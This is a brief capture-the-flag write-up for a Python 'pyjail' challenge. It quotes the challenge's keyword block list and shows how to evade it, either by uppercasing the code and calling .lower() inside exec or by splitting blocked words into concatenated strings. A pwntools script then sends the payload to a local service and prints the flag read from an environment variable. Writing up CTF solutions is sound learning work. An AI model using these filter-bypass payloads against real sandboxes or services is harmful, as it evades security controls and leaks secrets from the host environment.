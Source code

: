 # Pyjail

## Overview
To obtain the flag we need to bypass some checks:
```py
if any(x in user_input for x in ["import", "environ", "getenv", "os", "print", "system", "__", "open", "flag"]):
    print("Blocked!")
    continue
```
This is easy to do since we can use `exec` again, write everything in uppercase, and use the `.lower()` function.
```bash
>>> exec("IMPORT OS; PRINT(OS.ENVIRON['FLAG2'])".lower())
```
or
```bash
>>> exec("impor"+"t " + "o" + "s;" + "prin"+"t" + "(o" + "s.enviro" + "n[\'fla" + "g\'])")
```

## Exploit
```py
from pwn import remote, context

context.log_level = 'error'

payload = b"exec(\"IMPORT OS; PRINT(OS.ENVIRON['FLAG'])\".lower())"
payload = b'exec("impor"+"t " + "o" + "s;" + "prin"+"t" + "(o" + "s.enviro" + "n[\'fla" + "g\'])")'

r = remote("127.0.0.1", 6005)
r.recvuntil(b">>> ")
r.sendline(payload)
flag = r.recvline().decode().strip()
r.close()

print(flag)
```